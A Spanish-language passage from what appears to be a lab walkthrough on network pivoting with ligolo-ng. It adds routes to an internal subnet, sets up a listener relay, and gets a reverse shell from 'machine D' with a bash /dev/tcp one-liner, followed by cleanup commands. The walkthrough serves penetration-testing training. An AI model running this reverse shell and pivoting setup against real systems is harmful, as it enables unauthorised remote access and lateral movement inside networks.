Luego debemos agregar la ruta:

```c
sudo ip route add 10.10.4.0/24 dev ligolo
```

Vemos que se agrego correctamente:



Luego de agregar podemos hacer ping a la maquina D (IP -> 10.10.4.40)



Para obtener una revershell desde la maquina D, agregaremos un listener el cual redirigiera el trafico de la red 10.10.4.0/24 (B) a nuestra maquina kali.

- Maquina kali-01 (ligolo-ng)
```c
[Agent : seven@node-c] »  listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:3333 --tcp
INFO[1969] Listener 0 created on remote agent!          
[Agent : seven@node-c] »  
```

- Maquina D:
```c
seven@node-d:~$ bash -i >& /dev/tcp/10.10.4.30/4444 0>&1
```



Y tendríamos nuestra revershell asi como acceso/conectividad a la maquina.


## Limpieza

```c
sudo ip route del 10.10.2.0/24 dev ligolo
sudo ip route del 10.10.3.0/24 dev ligolo
sudo ip route del 10.10.4.0/24 dev ligolo


sudo ip link del ligolo
```